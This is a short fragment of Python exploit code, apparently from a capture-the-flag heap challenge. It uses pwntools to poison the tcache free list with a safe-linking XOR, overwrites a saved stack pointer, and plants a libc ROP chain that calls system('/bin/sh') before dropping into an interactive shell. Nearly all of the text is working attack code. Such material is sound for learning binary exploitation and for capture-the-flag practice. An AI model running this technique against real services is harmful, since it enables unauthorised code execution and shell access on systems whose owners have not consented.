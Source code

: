```python

saved_rbp = stack_leak - 0x128
info(f'saved rbp: {hex(saved_rbp)}')

rop = ROP(libc)
ropchain = b'A' * 8
ropchain += p64(rop.find_gadget(['pop rdi','ret'])[0])
ropchain += p64(next(libc.search(b'/bin/sh\x00')))
ropchain += p64(rop.find_gadget(['ret'])[0])
ropchain += p64(libc.symbols.system)

create(0x100, b'pwn')
create(0x100, b'pwn')

delete(7)
delete(8)

update(8, p64(heap_base >> 12 ^ saved_rbp))

create(0x100, b'pwned')
create(0x100, ropchain)

p.sendline(b'0')
p.recvrepeat(1)

print('*** SHELL ***')
p.interactive()
```